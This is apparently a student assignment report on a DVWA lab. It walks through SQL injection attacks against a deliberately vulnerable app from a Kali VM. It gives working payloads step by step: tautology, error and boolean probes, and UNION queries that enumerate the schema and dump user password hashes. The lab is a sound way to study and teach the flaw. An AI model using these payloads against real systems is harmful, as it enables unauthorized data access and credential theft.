# Assignment 4: SQL Injection
---

## 1. Introduction and Objectives

SQL injection occurs when a web application builds a database query by placing user input directly into it. When that input is not handled safely, an attacker can inject their own SQL, break out of the intended query, and make the database behave in ways it was never meant to logging in without a password, returning other users' records, or dumping sensitive data.

For this assignment, DVWA (Damn Vulnerable Web Application) was run as a Docker image on the host (macOS) and accessed from a Kali Linux VM acting as the attacker. This two-machine setup mirrors a realistic attacker-to-victim scenario over the network.

**Objectives:**

- Deploy a deliberately vulnerable web application in an isolated environment.
- Confirm network reachability between the attacker (Kali) and victim (macOS host).
- Perform and document several distinct classes of SQL injection attack.
- Analyse why each attack succeeds and what data it exposes.

---

## 2. Lab Environment

| Component | Role | Details |
|---|---|---|
| macOS host | Victim | Runs DVWA as a Docker container |
| Kali Linux VM | Attacker | Firefox browser used to send payloads |
| DVWA | Target application | Security level set to **Low** |

---

## 3. Environment and Connectivity Verification

Confirming the DVWA container is running and the published port is exposed.


*Figure 1: DVWA Docker container running on the host, showing the published port.*

Confirming the Kali attacker machine can reach the victim host over the network.


*Figure 2: Successful connectivity test from Kali to the victim host.*

With connectivity confirmed, DVWA was opened in the Kali browser and logged into using the default credentials (`admin` / `password`). On a fresh container the setup page appears first, where **Create / Reset Database** is clicked before logging in.


*Figure 3: DVWA login page accessed from the Kali attacker machine.*

The **DVWA Security** level was then set to **Low** so that the injection vulnerabilities are exposed.


*Figure 4: DVWA security level set to Low.*

---

## 4. SQL Injection Attacks

All attacks below target the **User ID** field on the DVWA *SQL Injection* page unless stated otherwise.

### Type 1: Logic / authentication bypass (tautology)

Submitting a condition that is always true causes the `WHERE` clause to match every row, bypassing the intended single-record lookup:

```
' OR '1'='1
```

The injected `OR '1'='1'` makes the condition always true, so the application returns **all** user records instead of one. This demonstrates how an attacker bypasses the intended query logic without valid input.


*Figure 5: An always-true condition bypasses the query logic and returns all user records.*

### Type 2: Error-based injection (finding the injection point)

A single quote was submitted on its own:

```
'
```

This breaks the SQL string and the database returns a syntax error. The error confirms the input reaches the database unsanitised this is how an attacker first identifies an injectable field.


*Figure 6: A single quote produces a SQL syntax error, confirming the field is injectable.*

### Type 3: Boolean condition injection (always true vs always false)

A condition that is always true returns every record:

```
' OR '1'='1
```


*Figure 7: `' OR '1'='1` is always true and returns all user records the query logic is bypassed.*

A condition that is always false returns nothing:

```
' OR '1'='2
```


*Figure 8: `' OR '1'='2` is always false and returns no records. The contrasting responses confirm the field responds to boolean logic.*

### Type 4: UNION-based injection (extracting data from other tables)

#### 4.1 Find the number of columns (ORDER BY method)

Each value was submitted in turn to find where the query runs out of columns:

```
1' ORDER BY 1 #
1' ORDER BY 2 #
1' ORDER BY 3 #
```


*Figure 9: `ORDER BY 1` succeeds.*


*Figure 10: `ORDER BY 2` succeeds.*


*Figure 11: `ORDER BY 3` errors confirming the query uses exactly two columns.*

#### 4.2 Confirm UNION works and locate the output

```
a' UNION SELECT null, null #
```

Using `a` (a non-existent ID) means the original row returns nothing, so only the injected data is displayed. No error confirms UNION works with two columns.


*Figure 12: Successful two-column UNION SELECT confirming the injection structure.*

#### 4.3 Extract the database version and current user

```
a' UNION SELECT version(), current_user() #
```


*Figure 13: UNION injection revealing the database version and current user.*

#### 4.4 Extract the current database name

```
a' UNION SELECT database(), null #
```


*Figure 14: Extracting the current database name via UNION injection.*

#### 4.5 Enumerate the tables in the database

```
a' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database() #
```


*Figure 15: Enumerating database tables through `information_schema`.*

#### 4.6 Enumerate the columns of the users table

```
a' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' #
```


*Figure 16: Enumerating the columns of the `users` table.*

#### 4.7 Dump the credentials (impact)

```
a' UNION SELECT user, password FROM users #
```

This returns every username alongside its stored password hash the full impact of the vulnerability.


*Figure 17: Extracted usernames and password hashes from the `users` table.*

> **Additional finding:** the extracted passwords are stored as **unsalted MD5 hashes**, which are trivially reversible using lookup tables. Weak hashing significantly amplifies the impact of the data exposure.

---

## 5. Results Summary

| # | Attack type | Payload | Result |
|---|---|---|---|
| 1 | Logic bypass (tautology) | `' OR '1'='1` | Returned all user records |
| 2 | Error-based | `'` | SQL syntax error injection point confirmed |
| 3 | Boolean condition | `' OR '1'='1` / `' OR '1'='2` | True returns all rows, false returns none |
| 4 | UNION (column count) | `1' ORDER BY 3 #` | Error at column 3 two columns confirmed |
| 5 | UNION (version/user) | `a' UNION SELECT version(), current_user() #` | DB version and current user disclosed |
| 6 | UNION (database name) | `a' UNION SELECT database(), null #` | Current database name disclosed |
| 7 | UNION (tables) | `... information_schema.tables ...` | Table names enumerated |
| 8 | UNION (columns) | `... information_schema.columns ...` | Column names enumerated |
| 9 | UNION (data dump) | `a' UNION SELECT user, password FROM users #` | Usernames and password hashes extracted |

---

## 6. Conclusion

This lab demonstrated how a single unsanitised input field can be progressively exploited: first to confirm that injection is possible (error-based), then to bypass the intended query logic (tautology/boolean), and finally to extract the full contents of the database (UNION-based). The attack chain shows a realistic escalation from probing, to mapping the database via `information_schema`, to dumping stored credentials. The exposure of unsalted MD5 password hashes illustrates how insecure data storage compounds the impact of an injection flaw.

---
